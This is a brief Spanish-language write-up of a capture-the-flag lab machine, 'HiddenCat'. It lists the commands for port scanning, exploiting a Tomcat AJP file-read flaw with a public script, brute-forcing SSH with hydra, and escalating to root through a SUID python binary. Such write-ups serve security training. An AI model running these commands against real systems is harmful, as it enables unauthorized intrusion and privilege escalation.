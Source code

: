 Maquina: HiddenCat

Autor: El Pinguino de Mario

Dificultad: Facil

ping 172.17.0.2 -c 1

nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

Encontramos los puertos 22, 8080 y 8009 abiertos

Puerto 8080 Tenemos un Tomcat versión 9.0.30

Al hacer fuzzing con gobuster, descubrimos la ruta /manager

Pero no podemos hacer mucho con esta información

Puerto 8009

Investigando sobre el puerto 8009, encontramos que es vulnerable a un LFI debido a que Tomcat no está actualizado

HackTricks proporciona un script que, al ejecutarlo, revela lo siguiente

python2 48143.py -p 8009 -f WEB-INF/web.xml 172.17.0.2

escubrimos un posible usuario

Procedemos a realizar un ataque de fuerza bruta por SSH con hydra

hydra -l jerry -P /usr/share/wordlists/rockyou.txt.gz ssh://172.17.0.2

Buscando permisos SUID, encontramos tanto perl como python

Nos vamos a tmp
find / -perm -4000 2>/dev/null

Consultamos GTFObins para encontrar una forma de escalar privilegios con python. Ejecutamos el siguiente comando

/usr/bin/python3.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'

whoami

